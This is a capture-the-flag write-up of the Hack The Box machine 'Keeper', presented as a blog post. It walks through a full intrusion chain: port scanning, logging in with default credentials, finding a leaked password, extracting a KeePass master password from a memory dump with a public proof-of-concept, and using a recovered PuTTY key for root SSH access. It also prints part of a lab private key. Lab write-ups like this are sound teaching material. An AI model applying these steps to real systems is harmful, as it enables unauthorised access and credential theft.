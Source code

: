 ```yaml
---
layout: post
title: "HTB: Keeper"
author: Andrew Cherney
date: 2024-02-10 11:07:36
tags: htb easy-box pki webapp cve
icon: "assets/icons/keeper.png"
post_description: "Simple and short. Looking through the ticket tracking service we find a way to login as the user, after that we can dump the credentials to a password manager and ssh in as root."
---
```


<h1>Summary</h1>

{{ page.post_description }}

<h1>Enumeration</h1>

<h2>nmap</h2>

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Keeper]
└──╼ $nmap -sC 10.10.11.227
Starting Nmap 7.92 ( https://nmap.org ) at 2023-08-29 20:01 CDT
Nmap scan report for 10.10.11.227
Host is up (0.053s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
80/tcp open  http
|_http-title: Site doesn't have a title (text/html).
```

<h2>http - port 80</h2>

![homepage redirect](/img/keeper/keeper_homepage.png)

![ticket tracking login](/img/keeper/keeper_ticket_login.png)

<h1>User as Inorgaard</h1>

We are met with a redirect to a ticket tracking service. This version of request tracker didn't seem to have any CVEs or exploit-db posts when searching. I decided a good additional start place was to check the default credentials for this service, which are incidentally *root:password*.

![admin page](/img/keeper/keeper_admin_page.png)

A basic overview of this site is to respond to tickets submitted by users. Here there is one recently viewed ticket which references a **.dmp** file that has been removed as an attachment.

![recent ticket](/img/keeper/keeper_ticket_view.png)

The admin here is named **Inorgaard** so I headed over to his profile to see if it leaked the **.dmp** file or anything else. 

![Inorgaard user profile](/img/keeper/keeper_Inorgaard_user_page.png)

Well that's a commented password.

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Keeper]
└──╼ $ssh lnorgaard@keeper.htb
lnorgaard@keeper.htb\'s password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have mail.
Last login: Tue Aug 29 11:00:15 2023 from 10.10.14.9
lnorgaard@keeper:~$ whoami
lnorgaard
lnorgaard@keeper:~$ cat user.txt
b47c29c1363fb-------------------
lnorgaard@keeper:~$ ls
KeePassDumpFull.dmp passcodes.kdbx RT30000.zip  user.txt
```

<h1>Root</h1>

<h2>KeePass password dumping</h2>

There is an obvious place to look here and that is at the **KeePassDumpFull.dmp** file. There exists [a way to dump the passwords of certain versions of KeePassDumpFull](https://github.com/vdohney/keepass-password-dumper) and I will be using [a python variant of that code](https://github.com/CMEPW/keepass-dump-masterkey).

TLDR: .NET is awful and stores every character typed in memory and it doesn't go away, searching for the patterns that are left behind can reveal most of the characters (dependent on some factors). The first github page also gives some remediation which includes deleting a ton of files that might have stored this info and reformatting your drive and reinstalling your OS. 

```bash
lnorgaard@keeper:~$ python3 /tmp/poc.py KeePassDumpFull.dmp 
2023-08-30 03:59:09,467 [.] [main] Opened KeePassDumpFull.dmp
Possible password: ●,dgr●d med fl●de
Possible password: ●ldgr●d med fl●de
Possible password: ●`dgr●d med fl●de
Possible password: ●-dgr●d med fl●de
Possible password: ●'dgr●d med fl●de
Possible password: ●]dgr●d med fl●de
Possible password: ●Adgr●d med fl●de
Possible password: ●Idgr●d med fl●de
Possible password: ●:dgr●d med fl●de
Possible password: ●=dgr●d med fl●de
Possible password: ●_dgr●d med fl●de
Possible password: ●cdgr●d med fl●de
Possible password: ●Mdgr●d med fl●de
```

From what I was reading the only character that cannot be read should be the first one, but there are 3 which in fact are not read ... or are not standard characters. In searching on duck I found [Rødgrød med fløde, a Danish berry pudding](https://nordicfoodliving.com/danish-red-berry-pudding-rodgrod-med-flode/), which lines up nicely with the name Inorgaard, or formatted a little better first initial **I** [last name Norgaard](https://en.wikipedia.org/wiki/N%C3%B8rgaard).

![KeyPass Danish Password Login](/img/keeper/keepass_password.png)

![KeyPass Passwords](/img/keeper/keepass_vault.png)

From that password vault I get a root password and an additional note of a Putty **.ppk** file. I tried to ssh in but I was denied, it seems I need the key extracted from that putty keyring. 

As of note I needed the newest version of putty and the commandline latest version did not work for me.

![Putty Key extraction](/img/keeper/putty_openssh_export.png)

```
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAp1arHv4TLMBgUULD7AvxMMsSb3PFqbpfw/K4gmVd9GW3xBdP
c9DzVJ+A4rHrCgeMdSrah9JfLz7UUYhM7AW5/pgqQSxwUPvNUxB03NwockWMZPPf
Tykkqig8VE2XhSeBQQF6iMaCXaSxyDL4e2ciTQMt+JX3BQvizAo/3OrUGtiGhX6n
FSftm50elK1FUQeLYZiXGtvSQKtqfQZHQxrIh/BfHmpyAQNU7hVW1Ldgnp0lDw1A
MO8CC+eqgtvMOqv6oZtixjsV7qevizo8RjTbQNsyd/D9RU32UC8RVU1lCk/LvI7p
5y5NJH5zOPmyfIOzFy6m67bIK+csBegnMbNBLQIDAQABAoIBAQCB0dgBvETt8/UF
NdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6joDni1wZdo7hTpJ5Zjdmz
...
```

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Keeper]
└──╼ $chmod 400 keeper.pem 
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Keeper]
└──╼ $ssh root@keeper.htb -i keeper.pem 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have new mail.
Last login: Tue Aug 29 20:17:33 2023 from 10.10.14.6
root@keeper:~# cat /root/root.txt
7986808062cb4-------------------
```
